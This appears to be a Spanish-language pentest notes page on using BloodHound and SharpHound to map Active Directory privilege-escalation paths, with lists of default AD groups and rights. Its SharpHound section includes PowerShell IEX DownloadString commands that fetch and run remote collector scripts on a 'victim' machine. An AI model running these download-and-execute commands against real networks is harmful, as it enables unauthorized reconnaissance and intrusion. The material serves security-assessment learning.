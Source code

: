 # Bloodhound 

Tags: #AD #BloodHound #SharpHound 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

```bash 
1. Visualización de Relaciones: BloodHound utiliza gráficos para mostrar las relaciones entre usuarios, grupos, computadoras y otros componentes en un AD. Estas visualizaciones hacen que sea más fácil para un atacante o pentester entender rápidamente las relaciones complejas y encontrar potenciales caminos de ataque.
    
2. Identificación de Caminos de Ataque: Uno de los principales valores de BloodHound es su capacidad para identificar caminos de escalada de privilegios y movimiento lateral. Al alimentar a BloodHound con datos recopilados, la herramienta puede identificar caminos específicos que un atacante puede seguir para escalar privilegios o moverse lateralmente a través de una red.
    
3. Automatización: La recopilación manual de detalles sobre las relaciones AD puede ser extremadamente lenta y tediosa. BloodHound, junto con su componente de recopilación de datos llamado SharpHound, automatiza gran parte de este proceso, permitiendo a los pentesters recopilar y analizar datos rápidamente.
    
4. Identificación de Vulnerabilidades Comunes: BloodHound también puede identificar patrones comunes que a menudo son vulnerables a la explotación, como configuraciones de delegación inseguras, miembros excesivamente permisivos en grupos de alto privilegio, y usuarios que tienen derechos de sesión local en sistemas críticos.
    
5. Capacidades de Análisis Avanzado: Aparte de identificar caminos obvios, BloodHound puede ayudar a identificar relaciones no evidentes que podrían ser explotadas. Por ejemplo, un usuario podría no tener privilegios directos sobre un recurso, pero a través de una serie de relaciones y delegaciones, podría tener una ruta de acceso indirecto.
    
6. Capacitación y Conciencia: Para defensores y equipos de seguridad, BloodHound también puede ser una herramienta valiosa. Al visualizar la estructura de permisos y las relaciones dentro de AD, los defensores pueden anticiparse a potenciales vías de ataque y tomar medidas para mitigar los riesgos.
```

## Grupos predeterminados de Active Directory:

```bash 
1. 'Domain Admins': Este grupo tiene control total sobre todos los dominios en el bosque. Cualquier usuario que sea miembro de este grupo puede realizar cualquier cambio en el dominio, como crear o eliminar otros usuarios, grupos y modificar políticas de seguridad.
2. 'Enterprise Admins': Los miembros de este grupo tienen permisos para realizar cambios a nivel de toda la empresa, incluidos todos los dominios y bosques.
3. 'Schema Admins': Los usuarios en este grupo pueden hacer cambios en el esquema de AD, que es la definición de objetos y atributos que pueden ser creados y almacenados en AD.
4. 'Account Operators': Pueden administrar las cuentas de usuario y grupos dentro de un dominio, pero no pueden modificar los miembros de los grupos de administradores ni cambiar la configuración de los servidores de dominio. Por lo que puedes crear, modificar cuentas de usuario.
5. 'Exchange Windows Permissions': Puede otorgar los permisos necesarios para que Exchange pueda interactuar con objetos de Active Directory, como usuarios, buzones y grupos. Los miembros de este grupo tienen permisos especiales en contenedores específicos de AD para realizar tareas como crear, modificar y administrar objetos relacionados con Exchange. 
6. 'Backup Operators': Pueden realizar copias de seguridad y restaurar archivos en un servidor, independientemente de los permisos de acceso a esos archivos.
7. 'Server Operators': Pueden realizar tareas de mantenimiento en servidores de dominio.
8. 'Guests': Es un grupo que por defecto tiene privilegios mínimos, y generalmente se utiliza para proporcionar acceso temporal o limitado a la red.
9. 'DNS Admins': Es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio.
10. 'Domain Users': Este grupo incluye todas las cuentas de usuario en un dominio. A menudo se verifica para identificar posibles cuentas huérfanas o no utilizadas.
11. 'Domain Computers': Este grupo incluye todas las estaciones de trabajo y servidores unidos al dominio.
12. 'Domain Controllers': Este grupo incluye todos los controladores de dominio en un dominio. Es esencial garantizar que sólo las máquinas confiables sean parte de este grupo.
13. 'Read-Only Domain Controllers - RODC': Si la organización utiliza RODCs, es esencial garantizar que estén configurados correctamente.
```

## Tipos de ActiveDirectoryRights

```bash 
Los 'ActiveDirectoryRights' incluyen, pero no se limitan a:

1. Read/Write: Leer y escribir información en objetos de AD.
2. Delete: Derechos para eliminar objetos.
3. CreateChild/DeleteChild: Crear o eliminar objetos hijos en un contenedor.
4. Self: Derechos para modificar información propia.
5. GenericAll: Control total sobre el objeto, incluyendo todos los derechos anteriores.
6. WriteDacl: Modificar la lista de control de acceso discrecional (DACL).  
7. WriteOwner: Cambiar el propietario de un objeto.
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); 
❯ Invoke-BloodHound -CollectionMethod All     

Nota: Estos comandos los ejecutamos en la maquina victima Windows para recolectar la información y obtener un archivo '.zip' el cual pasaremos a la herramienta de 'BloodHound' para el analisis 
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Nota: Podemos usar ADPeas para hacer la recolección ya que automaticamente ejecuta 'SharpHound'
```

## BloodHount 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console &> /dev/null & disown      # Iniciamos el servicio en el puerto local '7474' y lo independizamos

Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'


❯ ./BloodHound --no-sandbox             # Ejecutar como usuario 'root' 
❯ bloodhound &> /dev/null & disown      # Ejecutar 'Bloodhound' e independizarlo
```

